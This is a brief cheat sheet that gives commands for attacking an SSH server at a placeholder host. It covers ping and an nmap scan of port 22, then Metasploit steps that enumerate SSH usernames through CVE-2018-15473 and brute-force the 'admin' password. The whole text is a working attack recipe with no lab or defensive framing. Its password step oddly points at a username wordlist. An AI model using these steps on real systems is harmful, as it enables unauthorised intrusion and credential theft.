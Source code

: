 To find iP adress : ping www.target.com

Scan using nmap :  nmap -sV -p22 www.target.com

USE MSFCONSOLE:

To find username 

1. search CVE-2018-15473
2. use auxiliary/scanner/ssh/ssh_enumusers
3. set RHOSTS targetip
4. set USER_FILE /usr/share/metasploit-framework/data/wordlists/unix_users.txt 
5. run

To find password

1. use auxiliary/scanner/ssh/ssh_login
2. set RHOSTS targetip
3. set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_users.txt
4. set USERNAME admin
5. run
